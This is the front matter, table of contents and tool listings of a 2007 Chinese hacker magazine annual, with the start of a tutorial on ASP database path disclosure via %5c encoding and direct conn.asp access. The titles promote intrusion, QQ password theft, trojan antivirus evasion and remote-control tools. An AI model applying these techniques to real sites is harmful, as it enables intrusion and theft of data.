# 黑客X档案合订本2007年（上）第一部分

---

# 《黑客X档案》畅销系列丛书·菜鸟 Hacker 进化最佳教程

## 2007《黑客X档案》合订本（上卷）

WWW.HACKERXFILES.NET  WWW.HACKERXFILES.NET

## 经典漏洞回顾

- Windows ANI 漏洞轰动江湖（文件夹也 ANI）
- 又见 Discuz 变种 PM 漏洞
- 轻松掌握 Windows DNS 漏洞溢出到底
- PHPWind 轻松漏洞简单用
- 动易 Region.asp 注入漏洞利用
- Win2003 远程溢出带来动易新漏洞
- 最新漏洞 MS07004 挂马
- SA 提权新招：沙盒的故事
- 看菜鸟再度血洗魔兽军团，反遭公会系统最新漏洞大曝光
- DVBBS 7.1 SP1 最新漏洞曝光：遍历目录漏洞的利用
- 千金之后动网再挖洞：动网又现类似跨站漏洞

## 菜鸟推荐文章

- 菜鸟师徒行：再加三招之扫描（上）
- 数据库零距离：菜鸟与 SQL 注入初探
- 隐藏在网页中的特洛伊——ASP 木马小结
- 手动注入也精彩之数据库基础篇
- 手动注入也精彩之进阶篇（上）
- 手动注入也精彩之进阶篇（下）：注入漏洞的原理
- 菜鸟学黑客：入侵，就这么两下

## 精彩内容一览

- 叉子复仇记
- 菜鸟也要拥有一套 TK2006
- QQ 空间个人形象免费设置
- 破解邮箱跟我来
- 局域网攻击的无敌利器 Zxarps
- 网吧小菜与玩转万象 2004
- 菜鸟 VB 初体验
- 艰难的日本网站之旅
- 又子的 Ghost 版 XP 系统抓鸡总结
- 菜鸟 VB 初体验（续）
- 网吧 QQ 密码破解与聊天监听
- 小熊远控黑 X 版试用手记
- 拿什么拯救你——我的 QQ
- 网警 VS 黑客：网络世界里的矛与盾的较量
- 拒网终结者也没有威胁：看菜鸟与“流氓软件”的较量
- 从零开始学破解
- 功能限制之激活灰色按钮
- 破解知识文萃点：断点探秘
- 破解终极限制
- 狙击伪装破解法
- 多彩初体验
- PEID 全接触

## 《黑客X档案》2007 年合订本（上卷）

- 出品人：孙胜利
- 主编：杨冬佳
- 编辑部：sagi / 宋宋虫 / 虫虫 / hackest / 石头 / 黄色潜水艇 / 奔牛牛
- 特约编辑：ww0830 / zj1244 / 阿布 / 姜超 / 孟方明
- 光盘部：丛林
- 设计：谭海梅
- 排版：Bifrost
- 发行部主任：赵琦
- E-Mail：hackerxfiles@263.net
- 邮购查询电话：(010)88560080
- 发行联系电话：(010)88561472
- 联系人：赵琦
- 邮编：100037
- 定价：28 元（光盘 + 手册）

声明：刊中所载文字及图片，版权所有，未经许可，不得转载。文章内容仅代表作者观点，与本刊立场无关。投稿于本刊的文章，均视为作者已授权本刊合作媒体的使用。我们支付的稿费已包含了授权相关资费，如有相关问题，请作者及时与我们联系。

## CONTENT

## 木马专题

| 期次 | 标题 | 页码 |
|---|---|---|
| 2007.01 | 数据库零距离——菜鸟与 SQL 注入初探 | 9 |
| 2007.02 | 隐藏在网页中的特洛伊——ASP 木马小结 | 14 |
| 2007.03 | 手动注入也精彩——数据库基础篇 | 19 |
| 2007.04 | 手动注入也精彩——进阶篇（上） | 23 |
| 2007.05 | 手动注入也精彩——进阶篇（下）：注入漏洞的原理 | 28 |
| 2007.06 | 菜鸟师徒行——拜师学艺第一招之扫描（上） | 32 |

## QQ 专栏

| 期次 | 标题 | 页码 |
|---|---|---|
| 2007.01 | MSN 密码我来看 | 36 |
| 2007.01 | 简简单单刷 QQ 空间 | 37 |
| 2007.01 | 网吧 QQ 密码破解与聊天监听 | 37 |
| 2007.02 | QQ 交友中心照片任意传 | 38 |
| 2007.02 | 黑客、QQ 与 MM | 39 |
| 2007.02 | 利用 QQ 空间也能盗 QQ | 41 |
| 2007.03 | QQ 盗号来的故事 | 42 |
| 2007.03 | 人人都是花之神匠，人人都申请五级植物 | 44 |
| 2007.03 | 非红钻也来无限刷 QQ 秀 | 45 |
| 2007.03 | QQ 过期会员的妙用 | 46 |
| 2007.04 | QQ 空间个人形象免费设置 | 46 |
| 2007.04 | 教菜鸟来免费获得 QQ 空间物品 | 47 |
| 2007.04 | 盗取 QQ 空间商城挂件来装扮我们自己的空间 | 48 |
| 2007.04 | 几经周折让腾讯 TT 不再“流氓” | 48 |
| 2007.05 | 让 QQ 消息来控制别人的电脑 | 50 |
| 2007.06 | QQ2007 聊天记录照样看 | 50 |
| 2007.05 | VIP4 会员来启动 K 级好友功能 | 51 |
| 2007.05 | 拿什么拯救你——我的 QQ | 52 |
| 2007.06 | QQ 邮箱上双锁，邮箱资料俺无忧 | 54 |
| 2007.06 | 简简单单恢复 QQ 好友 | 55 |
| 2007.06 | 教菜鸟暴力破解 QQ 相册密码 | 55 |
| 2007.06 | Qzone 漏洞又来了，五级花你养了吗？ | 56 |
| 2007.06 | QQ 的两个小 BUG | 56 |

## 网吧专题

| 期次 | 标题 | 页码 |
|---|---|---|
| 2007.01 | 网吧流量无极限之登录海王星 | 57 |
| 2007.01 | 挖出网络妙管家的管理员密码 | 58 |
| 2007.01 | 简单破解 hr2004 | 59 |
| 2007.01 | 网吧小菜也玩万象 2004 | 60 |
| 2007.02 | 偷天换日之攻破 NBOSS 免费上网 | 61 |
| 2007.02 | 三招两式突破网吧关键字限制 | 62 |
| 2007.02 | 挖出万象的管理密码 | 63 |
| 2007.02 | 冰点还原终极破解大法 | 64 |
| 2007.03 | 网吧坚持“删”到底 | 66 |
| 2007.03 | 巧用工具+社会工程学来破解密码 | 66 |
| 2007.03 | 教你做个小流氓 | 67 |
| 2007.03 | 菜鸟破解网吧路由器密码与内网木马上线 | 67 |
| 2007.04 | 叉子复仇记 | 69 |
| 2007.04 | 破解网吧还原系统跟我来 | 70 |
| 2007.04 | 网吧再现输入法漏洞 | 71 |
| 2007.04 | 看我让电脑起死回生 | 72 |
| 2007.05 | 将免费进行到底 | 73 |
| 2007.05 | 重返战场之网吧限制突破 | 74 |
| 2007.05 | 刺杀 Pubwin | 75 |
| 2007.05 | HEADSENSE 网吧管理系统的末日 | 76 |
| 2007.06 | zxarps 也来巧破美萍 | 77 |
| 2007.06 | 网吧通用破解法之权限提升 | 78 |
| 2007.06 | 网管的故事之有人在免费上网 | 79 |
| 2007.06 | 菜鸟来破网吧限制 | 80 |

## 目录

## 网络游戏

- 2007.02 劲舞团，偷懒才是硬道理 …… 82
- 2007.01 QQ 斗斗地主，玩的就是刷分 …… 82
- 2007.03 看菜鸟再度血洗魔兽军团——魔兽公会系统最新漏洞大曝光 …… 83

## 电脑黑客

- 2007.01 Windows 终端服务的终结者 …… 86
- 2007.01 让网易的桌面听我的 …… 86
- 2007.01 免费！免费！继续免费！ …… 88
- 2007.01 菜鸟的超级养鸡法 …… 90
- 2007.01 到 163.com 钓“鸡”去 …… 91
- 2007.01 小心小偷网页中的猫腻 …… 92
- 2007.01 将文件加密进行到底 …… 93
- 2007.01 系统还原点随意刷 …… 95
- 2007.01 解决复制页面数据产生乱码问题 …… 96
- 2007.01 脚本语言的妙用 …… 97
- 2007.02 菜菜办证不求人 …… 98
- 2007.02 百度空间的美容妙计——巧取豪夺 CSS …… 99
- 2007.02 我的工具听我的 …… 99
- 2007.02 灌水无罪 …… 101
- 2007.02 当个性遇上空白 …… 103
- 2007.02 看菜鸟来对抗瑞星防火墙 …… 104
- 2007.02 轻松拥有“合法”的 Windows 后门 …… 106
- 2007.02 深挖猛掘 NTFS 文件流（ADS）的利用 …… 107
- 2007.02 木马也爱 Office …… 108
- 2007.02 小小菜鸟架论坛之玩转 PHP 论坛 …… 110
- 2007.03 教菜鸟一分钟“黑”掉 Baidu 和 Google …… 112
- 2007.03 由“工行被黑”引发的思考 …… 112
- 2007.03 帮你笔试雅虎 100 分 …… 113
- 2007.03 让你的邮件总置顶 …… 114
- 2007.03 靓丽贴图，举手可得 …… 115
- 2007.03 菜鸟特殊的破解——突破触摸屏的限制 …… 116
- 2007.03 我的电脑只有我能上网 …… 116
- 2007.03 找回丢失的重要数据 …… 117
- 2007.03 校园网菜鸟入侵大作战 …… 119
- 2007.03 看我头像三十六变 …… 122
- 2007.03 跨站利器之 XSS SHELL …… 123
- 2007.04 CorruptCode 站点 WEB 安全游戏闯关攻略 …… 125
- 2007.04 又子的计算机考证 …… 129
- 2007.04 记事本也能这么玩 …… 130
- 2007.04 Google 助小菜之力 …… 131
- 2007.04 菜鸟的万能捆绑器 …… 132
- 2007.04 快速下载网站数据不用愁 …… 133
- 2007.04 利用 IEXPRESS 突破欺骗骚扰 …… 134
- 2007.04 菜鸟也学社会工程学 …… 135
- 2007.04 爱情测试背后的阴谋 …… 136
- 2007.04 使用一个独立空间来打造多个独立网站 …… 137
- 2007.05 最新体验 Vista 操作系统输入法漏洞 …… 138
- 2007.05 手把手教你全自动刷 163 邮箱积分 …… 139
- 2007.05 破解邮箱登录技术 …… 140
- 2007.05 菜鸟也能玩杀毒软件 …… 141
- 2007.05 你会用网易邮箱来盗 QQ 吗？ …… 142
- 2007.05 菜鸟账号计 …… 143
- 2007.05 隐藏磁盘小妙招 …… 144
- 2007.05 校区起名听我的 …… 145
- 2007.05 原来也可以这样使用站内“搜索”！…… 146
- 2007.05 寻根探源——网鸟真身在何处？…… 147
- 2007.05 菜鸟轻松架设本地 WAP 网站 …… 148
- 2007.05 又子的 Ghost 版 XP 系统抓鸡总结 …… 149
- 2007.05 文件名后缀的艺术 …… 150
- 2007.06 肉鸡在前，菜鸟在后 …… 151
- 2007.06 扫描别忘记破解 WindowsXP SP2 的线程限制 …… 152
- 2007.06 干掉瑞星的监控密码 …… 153
- 2007.06 图标也疯狂 …… 154
- 2007.06 LINUX 终极模拟 …… 154
- 2007.06 图标也疯狂 …… 155
- 2007.06 简单设置让卡巴不再盲目 …… 157
- 2007.06 让 Google 再次成为黑客的帮凶 …… 158
- 2007.06 让 Windows 帮我们隐藏文件 …… 160
- 2007.06 文字找 MM 记 …… 162
- 2007.06 菜鸟抓鸡利器——TK2006 …… 163

## 木马记

- 2007.01 2007 之又见黑洞 …… 166
- 2007.01 超级迷你木马 Spirit …… 167
- 2007.01 揭、揭、揭，看菜鸟的无限捆绑！…… 168
- 2007.01 轻松过卡巴也行 …… 170
- 2007.02 在肉鸡中飞舞的“蓝蝴蝶” …… 171
- 2007.02 MyCCL——今天你免杀了吗？…… 173
- 2007.02 菜鸟的木马守望者 …… 175
- 2007.02 小试金山的数据流免杀 …… 176
- 2007.03 特别的过卡巴主动防御木马——Eviotus …… 176
- 2007.03 脚本后门也玩捆绑挂马 …… 178
- 2007.03 免杀集合的妙用 …… 180
- 2007.04 国外的好马——NuclearRAT …… 181
- 2007.04 教你修改特征码 …… 183
- 2007.04 菜鸟来打造不死的灰鸽子 …… 184
- 2007.04 你有盾我有矛，轻松过主动防御 …… 185
- 2007.05 小熊远控深入专版试用手记 …… 186
- 2007.05 做游戏玩家远程控制 …… 188
- 2007.05 超强远控 Bandook v1.35 …… 191
- 2007.05 灰鸽子 2006 免杀跟我学 …… 193
- 2007.06 Eviotus 服务端的免杀 …… 195
- 2007.06 迷你的小马 ConsoleDevil …… 197
- 2007.06 盘点木马新秀——Hav RAT1.3.0 …… 198
- 2007.06 菜鸟的无间后门 …… 199

## 专栏

- 2007.01 剿灭难缠的 X38.com …… 201
- 2007.01 防范 U 盘病毒，我有小妙招！…… 201
- 2007.01 与 QQrobber 病毒过招 …… 203
- 2007.02 挥“刀”斩马，保卫爱机 …… 204
- 2007.02 让 IE 流氓不再有 rootkit 撑腰 …… 207
- 2007.03 清除可恶的 www.7939.com …… 210
- 2007.03 巧用冰刃清病毒 …… 211
- 2007.03 菜鸟痛苦的手动杀毒经历 …… 212
- 2007.04 勇战 VBS 网马 …… 215
- 2007.04 揪出伪装到极限的 U 盘病毒 …… 216
- 2007.05 用思维来杀死病毒 …… 217
- 2007.05 菜鸟来清除 265dm 病毒 …… 218
- 2007.06 Tencent，我的电脑你别乱动！…… 219
- 2007.06 菜鸟玩转反病毒 …… 220

## 黑客人物面对面

- 2007.03 网警 VS 黑客——网络世界里黑与白的较量 …… 220

## 侠隐仙踪

- 2007.01 天上人间 …… 224
- 2007.02 漏洞 …… 225
- 2007.03 天使守护者 …… 227
- 2007.04 寂寞鹅炮营 …… 229
- 2007.05 燕尾蝶与蒲公英 …… 231
- 2007.06 错步 …… 232
- 2007.06 站在领域的墙上 …… 233

## 名人的旅行

- 2007.01 动易 Region.asp 注入漏洞利用 …… 234
- 2007.01 PHPCMS 3.0 上传漏洞利用 …… 236
- 2007.01 社会工程学再曝 PHPWIND 短消息漏洞 …… 237
- 2007.01 唐古拉之旅 …… 238
- 2007.01 记一次入侵虚拟主机全过程 …… 243
- 2007.01 双雄的日本网站之旅 …… 245
- 2007.01 网络下载软件在黑客入侵中的应用 …… 248
- 2007.02 恭贺新春——QQ、UC 远程溢出漏洞也拜年 …… 249
- 2007.02 SA 提权新招，沙盒的故事 …… 252
- 2007.02 跨站帮手之 QuickTime 影片文件 …… 254
- 2007.02 “注入”星痕网站管理系统 2.0 …… 256
- 2007.02 迅雷、闪游的温床 …… 259
- 2007.02 跟我学 BBSXP 最新漏洞的利用 …… 259
- 2007.02 渗透某征婚网 …… 261
- 2007.03 最新漏洞 MS07004 也挂马 …… 264
- 2007.03 菜鸟来玩 FCKEDITOR 入侵加提权 …… 266
- 2007.03 DVBBS 7.1 SP1 最新漏洞曝光——遍历目录漏洞的利用 …… 268
- 2007.03 揭开某公安厅网站被黑之谜 …… 269
- 2007.03 十分钟来入侵 CCTV …… 271
- 2007.03 你藏好了吗？物理路径 …… 273
- 2007.03 社会工程学快速拿 webshell …… 274
- 2007.03 我酷我秀，你的排名我做主 …… 275
- 2007.04 又见 Discuz 最新 PM 短消息漏洞！…… 277
- 2007.04 斐讯 0day 漏洞一分钟利用 …… 282
- 2007.04 WIN2003 缺陷带来动易新漏洞 …… 283
- 2007.04 从 IIS 写权限到巅峰权限 …… 284
- 2007.04 动力文章系统 webshell 之旧漏洞，新思路 …… 287
- 2007.04 大家一起来入侵国外主机 …… 289
- 2007.04 渗透某跑跑卡丁车队网站 …… 291
- 2007.04 Windows 动网光标文件（.ANI）最新漏洞来了 …… 293
- 2007.04 网易邮箱再现跨站漏洞 …… 294
- 2007.05 PHPWind 超级漏洞简单用 …… 295
- 2007.05 PHPWind 插件最新漏洞大曝光 …… 297
- 2007.05 QQ 邮箱我再来跨 …… 297
- 2007.05 记一次“渡三折”的渗透入侵 …… 299
- 2007.05 入侵台湾某政府网站 …… 301
- 2007.05 PHP 来注入大学生创业网 …… 305
- 2007.05 一次对 LEADBBS 的入侵 …… 309
- 2007.05 菜鸟也来入侵韩国网站 …… 311
- 2007.05 一起来认识 Windows DNS 服务溢出漏洞 …… 314
- 2007.06 将 Windows DNS 漏洞溢出到底 …… 316
- 2007.06 Windows ANI 漏洞新玩法之文件夹找 ANI …… 316
- 2007.06 oblog4.0/4.5 漏洞，菜鸟也快乐入侵 …… 318
- 2007.06 一次绕过 IPSEC 限制的渗透之旅 …… 319
- 2007.06 台湾 Linux 肉鸡大派送 …… 322
- 2007.06 oblog4.0 最新通杀漏洞大曝光 …… 324
- 2007.06 看我来入侵复旦大学 …… 326
- 2007.06 看菜鸟来入侵“访亲网” …… 330
- 2007.06 对国内主流邮箱的跨站测试 …… 331

## 安全教程一

- 2007.01 让卡卡成为菜鸟的安全小助手 …… 335
- 2007.01 我用篡改写日记 …… 337
- 2007.02 VPN，今天你玩了吗？…… 338
- 2007.02 全面终结 SQL 注入时代——VIF 防火墙试用小记 …… 341
- 2007.03 真假进程巧分辨，让木马无处可藏 …… 343
- 2007.03 让后台扫描工具变白痴 …… 348
- 2007.04 守住网站最后的安全底线 …… 350

## CONTENT

- 2007.04 和我一起摆平“硬盘敲诈者” …… 351
- 2007.04 愚人节的“礼物” …… 353
- 2007.05 让电脑的天空不再有“鸽子”飞翔 …… 354
- 2007.05 系统漏洞缝补二则 …… 356
- 2007.05 将 Ping 探测拒之门外 …… 358
- 2007.05 防止局域网内的人 ARP 欺骗 …… 359
- 2007.06 让我们的密码永恒不“破” …… 359
- 2007.06 系统的保护神——安全护盾 …… 360
- 2007.06 为了我们的电脑，请将安全进行到底 …… 362

## 黑客训练营

- 2007.01 PPPoE 验证缺陷所带来的危害 …… 366
- 2007.01 巧用 Netsh 命令来玩内网挂马 …… 368
- 2007.01 动易，还是动易！动易网站最新漏洞大集合 …… 371
- 2007.02 挑战 VISTA 的时代——黑客 PK UAC …… 374
- 2007.02 再曝 BBSXP 7.0 Beta 2 漏洞 …… 375
- 2007.03 腾讯 TT 最新漏洞也曝光 …… 379
- 2007.03 局域网攻击的无敌利器 zxarps …… 381
- 2007.04 菜鸟的 CC 攻防 …… 383
- 2007.04 付费账号获取记 …… 385
- 2007.05 菜鸟的 Linux 之旅 …… 387
- 2007.05 跟我一起来找 BBSXP 系统的漏洞 …… 390
- 2007.06 手把手教你伪造论坛人气 …… 392
- 2007.06 BBSXP2007 发帖跨站漏洞挖掘全过程 …… 393

## 神奇庄园

- 2007.01 从零开始学破解之（四）功能限制之激活灰色按钮 …… 395
- 2007.01 将 RAR 崩溃压变成黑屏 …… 397
- 2007.02 从零开始学破解之（五）破解知识大盘点 + “断点”探秘 …… 399
- 2007.02 使用 OD 破解 ASP 的 DLL 组件 …… 402
- 2007.03 从零开始学破解之（六）破解次数限制 …… 403
- 2007.03 破解零基础——脱壳、破解、个性化之一条龙 …… 407
- 2007.04 从零开始学破解之（七）标志位爆破法 …… 411
- 2007.04 为了本本健康，多想想破解多媒体教程 …… 413
- 2007.05 从零开始学破解之（八）壳之初体验 …… 415
- 2007.05 爆破“细节”谈 …… 418
- 2007.06 从零开始学破解之（九）PEID 全接触 …… 419
- 2007.06 手工脱壳之七招详解 …… 422

## 黑客编程

- 2007.01 菜鸟 VB 初体验 …… 425
- 2007.01 超级 U 盘木马传播器，菜鸟造 …… 427
- 2007.02 轻松制造 QQ 的 ALT 代码转换工具 …… 429
- 2007.02 熊猫烧香来了，看菜鸟如何赶走病毒 …… 430
- 2007.03 易语言初体验之轻松打造下载器 …… 432
- 2007.03 菜鸟使用 VB6 来编写网页木马生成器 …… 433
- 2007.04 Delphi 零基础也能打造“黑客浏览器” …… 435
- 2007.04 打造通杀加密网页的利器 …… 438
- 2007.05 一句代码来轻松写出 QQ 空间利用工具 …… 439
- 2007.05 教你用 Delphi 编写键盘广告插件 …… 440
- 2007.06 菜鸟编程来反制网吧 CMO 限制 …… 442
- 2007.06 使用 Delphi 简单编写两行代码实现超级整人 …… 443

## 安全大观园

- 2007.01 让网络中再也没有流氓——看菜鸟与“流氓软件”的较量 …… 444
- 2007.02 2007 杀毒软件大阅兵 …… 450
- 2007.03 熊猫烧香全秘闻大接触 …… 458
- 2007.04 菜鸟学黑客——入侵，就这么两下 …… 463
- 2007.05 菜鸟来跟我学汉化黑客软件 …… 472
- 2007.06 菜鸟的密码安全手册 …… 474

## 网络资料

### 黑洞2007

目前国内无驱动情况下屏幕传输速度最快的远程控制软件，国际级的水平，欢迎在相同环境下，用相同的屏幕颜色数与世界上速度最快的软件对比。

### MessenPass

MessenPass 是一款即时通讯软件（Instant Messenger）密码恢复工具，它能够探测出以下各种即时通讯软件的密码。

### FastMail 邮件转换专家 1.5

内置了 SMTP 服务器的功能，直接把您的邮件发送到对方的信箱里去，不再需要中间的 SMTP 服务器中转了。

### 网吧专用的维护工具 V1.13

网吧专用的维护工具，具有常用工具、资源管理、启动管理（包括禁止运行管理、必须运行管理）、优化与安全，以及其它工具。

### Office 全版溢出系列捆绑工具

支持 Office 全版本系列，可随意添加自己的文档，可自定义下载，可随意捆绑。

### 群建者2007DB

请不要使用北斗加壳等分区段的软件加密服务器端；本服务端采用的资源信息配置，任何会损坏区段结构的加密软件都将导致无法上线。

### VIF 防火墙

VIF 是 VirtualIISFirewall 的简写，是一款多功能的 IIS 防护软件。EasyRecovery：不会向你的原始驱动器写入任何东西，主要是在内存中重建文件分区表。

### Evilotus

功能强大的远程管理工具，控制端与被控端均采用完成端口模型，支持大量连接。

### Process Explorer

让使用者了解看不到的在后台执行的处理程序，显示模块、DLL、句柄等，并可终止任意进程（含系统关键进程）。

### 微点主动防御软件

对病毒行为规律分析、归纳、总结，结合专家判定经验，提炼成病毒识别规则知识库。

### Restorator

一个简单易用的中文化工具程序，支持拖曳、树形编辑和窗口操作，可简易修改资源文件。

（续）可将资源档案拖曳到界面内资料夹，内置编辑功能视窗，修改后可用拖曳方式取代原来资源后直接回存档案。

### NuclearRAT

一款远程控制工具，功能比较全面。

### RegSnap V5.0 汉化版

RegSnap 可以详细地向你报告注册表及其他与系统有关项目的改变变化情况。

### PcAnywhere

远程控制软件，可将你的电脑作为主控端控制远方被控端电脑，并在两端间互传文件。

### QQ 远程精灵

通过 QQ 发送语句控制对方，需要手动复制命令语句发送，不能直接用于控制。

### QQ医生

腾讯针对盗取 QQ 密码木马开发的查杀工具，可扫描并清除盗号木马程序。

### MagicHide

窗口隐藏与修改软件，具备较好界面与管理功能，提供隐蔽与伪装能力。

### DOTWAP

简单易用的 WAP 站点编辑器，可制作 WML 网页并实时预览。

### 按键精灵

模拟鼠标键盘动作的软件，可制作脚本自动执行一系列动作。

### Maxthon Access 2.0

跨主机文件访问与传输工具，可经互联网访问目标主机并获取所需文件。

### Bandook v1.35

国外强大的反弹远程控制。

### TK2008

网络管理员可以利用该系统对网络上的计算机进行检查，不但能够发现漏洞并提示，并且可以通过漏洞直接进入该主机。

### QQ密码极速破解程序

确认安装 WinPcap 3.1 后运行；数字 1-15 为暴力破解，默认参数 2 为纯数字。

### 小草密码读取工具

读取小草与硬盘还原卡密码的小工具。

### 多开游戏大厅补丁

用于腾讯 QQ 游戏大厅多个版本的限制修改。

### 劲舞挂机宝贝

支持全屏窗口，普通/个人/同步/动态等模式，操作简单，不修改游戏数据包。

### Win NT/Win2000/Win XP 工具箱

含远程关机、网络流量监视、网络安全端口与进程查看等功能。

### LiteIM

精简 QQ 辅助软件，支持会员提示、等级与图标自定义等。

### IPCS 种植者

专用 IPC，功能与小榕种植者类似，但更简单。

### 经典QQ 盗号

截取当前较新版本密码，支持隐式注入等。

### 克隆文件捆绑

检测可执行文件是否捆绑了不干净内容。

### Autoruns

出色的启动项管理工具，可管理启动项、控制注册表，并可进行网络搜索。


## 脚本扫盲班（三）

### 数据库漏洞——暴库与 SQL 注入初探



脚本扫盲班已经上了两堂课，围绕 ASP 与数据库基础的学习展开。作者用轻松口吻说明：课程需要兼顾“脚本实践”和“原理理解”，并引出本篇主题——数据库“暴库”。

### 一、暴库

上节课体验了“下载别人数据库”的案例后，本篇回到“暴库”原理：通过错误提示等方式探测数据库真实路径与文件位置。

> **名词解释：什么是暴库？**
>
> 顾名思义，暴库就是把对方数据库路径暴露出来。常见方法是提交特殊地址使程序报错，再通过错误信息猜测或定位数据库真实地址。

- 1. 数据库链接文件
- 2. 绝对路径与相对路径

ASP 在读取数据库前需先建立连接。实际开发中通常将连接代码单独放在 `conn.asp` 中，便于复用与维护。通过连接文件中的路径信息，可在报错时推断数据库真实位置。

绝对路径即物理路径（例如 `E:\web\bbs\conn.asp`），相对路径则相对于站点目录。理解两者差异是分析暴库原理的关键基础。

### 3. conn.asp 的代码学习

打开数据库连接文件（`conn.asp`）时，常见代码会定义变量、拼接连接字符串并通过 `Server.MapPath` 获取实际路径。

```asp
<%
dim db, connstr1, connstr2
db="data/mdb.mdb"
connstr1="Provider=Microsoft.Jet.OLEDB.4.0;Data Source="
connstr2=connstr1&Server.MapPath(db)
%>
```

文中解释了 `Dim`（定义变量）、`&`（字符串连接符）以及 `Server.MapPath`（将相对路径转为物理路径）的作用，并推导最终连接串结果。

### 4. %5c 暴库

`%5c` 是反斜杠 `\` 的 URL 编码。通过构造如 `.../bbs/%5cconn.asp` 的访问形式，可导致路径解析异常，触发数据库路径相关报错，从而泄露信息。



图1

### 5. 直接访问 inc/conn.asp 暴库

有些网站的 `conn.asp` 存放在 `inc` 目录下，而调用 `conn.asp` 的文件一般都是在根目录下，比如 `http://127.0.0.1/index.asp` 会去调用 `http://127.0.0.1/inc/conn.asp`，那么 `Server.MapPath` 是以 `index.asp` 所在的目录来查找数据库的。但是当我们直接访问 `http://127.0.0.1/inc/conn.asp` 的时候问题就发生了，`Server.MapPath` 此时却是以 `inc` 为当前目录来查找数据库的，当然是找不到了。限于篇幅我们就不再举出详细的例子了，我特意画了两张图给大家，大家仔细看这两张图再结合网上一些暴库的文字描述，应该会理解得比较清楚，就不浪费我们宝贵的课堂时间了，如图2、图3。



